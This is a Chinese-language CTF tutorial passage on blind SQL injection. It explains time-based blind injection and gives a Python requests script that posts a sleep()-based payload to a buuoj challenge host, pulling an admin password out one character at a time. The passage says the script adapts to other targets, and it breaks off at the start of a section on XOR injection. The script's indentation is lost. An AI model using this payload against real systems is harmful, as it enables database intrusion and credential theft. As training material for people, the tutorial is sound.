 

因为bool盲注的位置是不确定的，有可能是在url中以get形式，或者POST出的数据等等所以模板形式也不唯一，不过只要掌握requests包（类似学pwn的都会用到的pwn），理解发送http的流程，就是在模板上进行修改的操作了。

## 时间盲注

原理和bool盲注一模一样


区别点在于bool判断值变成了时间


也就是说如果bool为true,返回的时间为0.1s


如果为false，返回的时间为1s


这不就是个对错了嘛


所以直接就给出脚本了


```plain
import requests
url="http://fe5d8a13-c089-4e47-847d-b43c1622a20d.node3.buuoj.cn/index.php?action=publish"
cookie = {"PHPSESSID":"silql33d2jbdqnqp0l6san8rr4"}
k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
flag=""
for i in range(50):
for j in k:
j = ord(j)
data={
'mood':'0',
'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
}
try:
r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
except:
flag+=chr(j)
print(flag)
break
Plain Text
```



虽然针对特别的题目，但是改一改就能用了，甚至也能够改造成bool盲注的脚本。


找不到当时的例题了

## 异或注入

异或注入式一种绕过方式，更像是一种思维


在计算机二进制
